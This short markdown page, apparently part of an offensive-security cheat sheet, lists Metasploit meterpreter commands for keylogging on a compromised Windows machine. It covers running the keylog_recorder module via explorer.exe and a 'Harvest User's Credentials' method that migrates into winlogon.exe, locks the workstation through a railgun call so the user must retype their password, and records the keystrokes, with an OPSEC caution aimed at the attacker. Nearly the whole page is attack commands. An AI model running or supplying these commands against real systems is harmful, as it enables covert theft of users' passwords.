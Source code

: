# Metasploit

```
meterpreter > bgrun post/windows/capture/keylog_recorder
```

It will migrate to `explorer.exe` then start recording keystrokes.

```
meterpreter > bgrun keylogrecorder -c 0 -t 15
```

## Harvest User's Credentials

> [!WARNING] OPSEC Warning
> Use this method with caution.

```
meterpreter > run post/windows/capture/lockout_keylogger [pid=<winlogon_PID>]
```

It will migrate to `winlogon.exe` then start recording keystrokes.

```
meterpreter > irb
>> client.railgun.user32.LockWorkStation()

>> exit

meterpreter > bgrun keylogrecorder -c 1 -t 15
```
